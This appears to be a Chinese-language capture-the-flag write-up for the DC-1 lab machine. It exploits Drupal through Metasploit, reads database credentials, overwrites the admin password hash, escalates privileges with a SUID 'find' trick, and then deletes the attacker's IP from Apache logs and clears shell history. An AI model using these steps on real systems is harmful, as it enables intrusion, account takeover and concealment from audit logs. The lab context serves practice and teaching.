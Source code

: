 ```yaml
---
layout: post
title: DC-1
subtitle: DC-1
date: 2025-07-07 14:59
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
---
```

## 信息搜集

### 主机发现

```shell
arp-scan -l
namp -T4 -A -p- 192.168.163.131 # 扫描端口
dirb http://192.168.163.131 # 扫描目录
whatweb -v 192.168.163.131
```

### 渗透

```shell
msfconsole
> search drupal
> use <id>
> set payload payload/...
> set rhosts <ip>
> options
> run
```

#### 获取flag1

![Pasted%20image%2020250707150809.png](https://img.ghostliner.top/arJvR1.png)

提示查找配置文件

#### 获取flag2

```shell
shell
python -c "import pty;pty.spawn('/bin/bash')" #优化显示
find . -name "set*" #搜索设置文件
```

![Pasted%20image%2020250707150929.png](https://img.ghostliner.top/MCGvyt.png)

![Pasted%20image%2020250707151035.png](https://img.ghostliner.top/LVs8FM.png)

#### 获取flag3

获取到数据库信息

```
'database' => 'drupaldb',
'username' => 'dbuser',
'password' => 'R0ck3t',
```

```shell
mysql -h 127.0.0.1 -P 3306 -u dbuser -pR0ck3t
```

```mysql
use drupaldb;
show tables;
show columns from users;
select * from users where uid=1;
update users set pass="$S$DQCOKBJdDlel6L.ZfV1tYbTccflz6hwDisRxE25daht/qoX.Bb6g" where uid=1;
```

```shell
find . -name "*.sh"
./scripts/password-hash.sh 123
# admin原密码 $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR
# 现密码(123) $S$DQCOKBJdDlel6L.ZfV1tYbTccflz6hwDisRxE25daht/qoX.Bb6g
```

admin登录，搜索页面发现flag3
![Pasted%20image%2020250707155935.png](https://img.ghostliner.top/btkBWY.png)

#### 获取flag4

```shell
cat /etc/passwd
ls /home/flag4
cat /home/flag4/flag4.txt
```

![Pasted%20image%2020250707151856.png](https://img.ghostliner.top/Tw3JiS.png)

![Pasted%20image%2020250707151953.png](https://img.ghostliner.top/Gq0tZA.png)

#### 获取flag5

按提示提权

```shell
find / -perm -4000 -type f 2>/dev/null # 判断是否能提权
find / -perm -u=s -type f  2>/dev/null
find / -exec "/bin/bash" -p \; # 提权
```

![提权成功](https://img.ghostliner.top/tMPT5d.png)

提权成功，获取flag5

![Pasted%20image%2020250707161219.png](https://img.ghostliner.top/weYUZl.png)

## 痕迹清除

### 网站日志清除

```shell
find /  -type f -name "access*"
sed -i '/192.168.163.132/d' /var/log/apache2/access.log
find /  -type f -name "error*"
sed -i '/192.168.163.132/d' /var/log/apache2/error.log
```

### 数据库恢复和日志清除

![Pasted%20image%2020250707165639.png](https://img.ghostliner.top/rDCHQO.png)

```mysql
show global variables like "%log%";
```

### history

```shell
history -c
```
